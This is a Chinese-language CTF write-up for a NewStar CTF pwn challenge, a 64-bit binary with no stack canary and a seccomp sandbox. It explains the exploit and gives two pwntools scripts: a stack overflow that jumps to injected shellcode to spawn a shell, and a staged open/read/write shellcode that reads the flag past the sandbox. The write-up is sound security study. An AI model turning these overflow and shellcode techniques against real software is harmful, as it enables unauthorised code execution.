

NewStar CTF week2的一道题，64bit没开canary，有个沙箱

<!-- more -->



没加沙箱可以把shellcode写到buf，然后栈溢出修改返回地址为buf然后getshell。

```python
from pwn import*
context(log_level='debug',os='linux',arch='amd64')
elf=ELF("./pwn")
p=process("./pwn")
#p=remote('node4.buuoj.cn',27624)
padding=0x38
shellcode=asm(shellcraft.sh())
p.recv()
p.sendline(shellcode)
p.recv()
payload='a'*padding+p64(0x233000)
p.sendline(payload)
p.interactive()
```

加了的话不能执行execve()和13号系统调用(sys_rt_sigaction)，不过可以用open(),read(),write()直接打印出flag，看来是要自己写shellcode了。

后来发现第一次read只读入了0x1A，因此只能先写一个sys_read，在下次ret到0x233000执行输入一个长一点的内容。执行read函数调用后在后面继续写入orw，read函数执行完后就会执行后面的orw，执行open函数打开./flag，执行read函数读出flag到0x233100，最后用write函数输出出来。

其实也可以不用orw，用shellcraft.cat("./flag\x00")也可以cat flag（只要输入长度够）。

```python
from pwn import*
context(log_level='debug',os='linux',arch='amd64')
elf=ELF("./pwn")
#p=process("./pwn")
p=remote('node4.buuoj.cn',26004)

def debug():
	gdb.attach(p,"b main")
	pause()

padding=0x38
shellcode=asm(
'''
    xor rax, rax
    xor rdi, rdi
    xor rsi, rsi
    xor rdx, rdx
    mov rax, 0x2
    mov rdi, 0x0067616c662f2e   
    push rdi
    mov rdi, rsp
    syscall  

    mov rdx, 0x50   
    mov rsi, 0x233100
    mov rdi, rax    
    mov rax, 0      
    syscall
    
    mov rdi, 0x1     
    mov rax, 0x1      
    syscall
'''
)

shellcode_read=asm(
'''
    xor eax,eax
    xor rdi, rdi 
    mov rdx, 0x100
    mov rsi, 0x233015
    syscall
'''
    )

#print(hex(len(shellcode_read)))
#pause()
p.recvuntil('Well.Just a little.\n')

p.sendline(shellcode_read)
p.recvuntil("Let's see what u can do this time~\n")

payload='a'*padding+p64(0x233000)
p.sendline(payload)
#debug()
p.recvuntil("See you!\n")
payload=shellcode
p.send(payload)
p.interactive()
```
